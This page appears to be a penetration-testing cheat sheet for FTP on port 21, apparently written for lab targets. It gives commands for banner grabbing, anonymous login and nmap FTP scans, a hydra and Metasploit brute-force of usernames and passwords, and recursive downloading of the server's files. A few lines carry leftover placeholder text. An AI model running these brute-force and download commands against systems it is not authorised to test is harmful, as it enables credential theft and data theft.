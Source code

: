 # Port 21 - FTP

### Connection

```bash
ftp 10.10.10.143
telnet 10.10.10.143 21
netcat 10.10.10.143 21
```

### Banner Grabbing

```bash
telnet -vn 10.10.10.143
```

### Anonymous Login

{% code overflow="wrap" %}
```bash
ftp 10.10.10.143
anonymous
anonymous
```
{% endcode %}

### nmap ftp Script

{% code overflow="wrap" %}
```bash
nmap -oA nmap/ftp.nmap -script 'not brute and not dos and *ftp*' --script-args= -d -Pn -v -p 21 10.10.10.143
nmap ftp vuln script
nmap --script=ftp-* -p 21 10.10.10.143ome code
```
{% endcode %}

### User Enumeration

```
// Some code
```

### Username and Password Bruteforce Attack

{% code overflow="wrap" %}
```bash
# hydra
hydra -L ../cred/users.txt -P ../cred/passwords.txt -e nsr -s 21 -o "172.16.1.12.ftp.txt" ftp://172.16.1.12

# Metasploit
use auxiliary/scanner/ftp/ftp_login
msf auxiliary(ftp_login) > show options
msf auxiliary(ftp_login) > set PASS_FILE /usr/share/wordlists/rockyou.txt
msf auxiliary(ftp_login) > set USER_FILE users.txt
msf auxiliary(ftp_login) > set RHOSTS 10.10.10.143
msf auxiliary(ftp_login) > run
```
{% endcode %}

### Download Files

```bash
ftp 10.10.10.143
PASSIVE
BINARY
get <FILE>
mget <FILEs>
```

### Download Files Recursively

{% code overflow="wrap" %}
```bash
wget -r ftp://username:password@10.10.10.143/dir/*
wget -r ftp://10.10.10.143/dir/* --ftp-user=username --ftp-password=password
wget -r --user=anonymous --password="" ftp://10.10.10.143/dir/*
wget -r --user="steph" --password="billabong" ftp://10.1.1.68/
```
{% endcode %}

### Sort files based on file size

{% code overflow="wrap" %}
```bash
find . -type f -exec du -h {} + | sort -h
```
{% endcode %}

### &#x20;Read all files

{% code overflow="wrap" %}
```bash
for file in $(find . -type f); do echo ">> $file <<"; cat $file; done
```
{% endcode %}
